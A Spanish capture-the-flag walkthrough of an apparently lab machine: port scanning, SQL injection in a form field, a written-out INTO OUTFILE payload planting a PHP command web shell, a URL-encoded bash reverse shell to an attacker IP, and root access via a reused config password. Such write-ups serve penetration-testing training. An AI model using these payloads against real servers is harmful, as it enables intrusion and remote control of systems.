 Comenzamos con un escaneo de puertos y servcios mediante la herramienta nmap 
`sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.11.116 `
![[Pasted image 20240917042101.png]]
Vamos a lanzar un escaneo de puertos mas exhaustivo 
`nmap -p 22,80,4566,8080 -sCV 10.10.11.116 `
![[Pasted image 20240917042927.png]]
Decido centrarme en  el puerto 80 , por lo que antes de visitar la web decido escanearla con la herramienta whatweb


Visitamos la web

Al ver un imput en en la web trato de provar si es vulnerable a XSS, HTML injection u sql injection.
Probamos introduciendo una etiqueta basica en html para ver si el imput es vulnerable a HTML injection.

![[Pasted image 20240918023119.png]]
![[Pasted image 20240918023131.png]]

Vemos que si lo es, veamos si es vulnerable a XSS introduciendo un alert() en el imput
![[Pasted image 20240918023217.png]]
![[Pasted image 20240918023223.png]]

Vemos que si, pero al no estar autenticado no podemos aprobecharlo.
Probamos algo como admin' para ver si con la comilla podemos detectar si es vulnerable a sql injection.
![[Pasted image 20240918023243.png]]
Parece ser que no, al no encontrar nada relevante en la web, veamos si podemos encontrar algo interesante en la petición.
![[Pasted image 20240918023615.png]]
Vemos que la peticion post manda nuestro imput de username y el de country, si añadimos una comilla al final de la peticion podremos ver si es vulnerble a una  injeccion sql.
Mandamos la peticion al repiter, añadimos la comilla y le damos a a send
![[Pasted image 20240918023942.png]]
Vemos  que a la derecha no vemos nada, pero si observamos la web vemos un error que nos verifica la injección sql.
![[Pasted image 20240918024022.png]]
Veamos el nombre de la bse de datos en cuestion
![[Pasted image 20240918024158.png]]
![[Pasted image 20240918024220.png]]
Al ver que responde con el nombre de la base de datos, veamos si podemos mostrar un contenido alojado en un archivo que nosotros subamos desde una injeccion, suponiendo que la ruta del servidor web donde esta alojado account.php es /var/www/html/

Subremos un archivo de prueba para ver si podemos mostrar el contenido desde la web

![[Pasted image 20240918025700.png]]
![[Pasted image 20240918032124.png]]
Probamos a introducir un código php que ejcute una cmd y guardarlo en un binario php
`' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -`
![[Pasted image 20240918034528.png]]
![[Pasted image 20240918034552.png]]
![[Pasted image 20240918034609.png]]
Tenemos RCE, por lo que intentaremos lanzar una reverse shell, pero no podemos añadirla como tal, debemos codificarla como URL para añadirla


![[Pasted image 20240918034915.png]]
Copiamos el contenido y lo añadimos al navegador mientras estamos en escucha por el puerto especificado
`%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%35%31%2f%34%34%34%34%20%30%3e%26%31%27`
![[Pasted image 20240918035033.png]]
Ya tenemos acceso, tras un tratamiento de la tty, listamos el contenido donde nos encontramos

![[Pasted image 20240918041016.png]]
Veamos el contenido de config.php
![[Pasted image 20240918041121.png]]
`uhc-9qual-global-pw`

Encontramos una contraseña, vayamos a por la user flag, nos dirigimos al directorio del usuario
USER FLAG
![[Pasted image 20240918041220.png]]
Podemos ver la user flag sin necesidad de cambiar de usuario, por lo que alomejor la contraseña que hemos encontrado es del usuario root
ESCALADA DE PRIVILEGIOS
Veamos si podemos acceder al usuario root con la contraseña encontrada
![[Pasted image 20240918041359.png]]
Ya somos root, vamos a por la root flag
ROOT FLAG
![[Pasted image 20240918041441.png]]
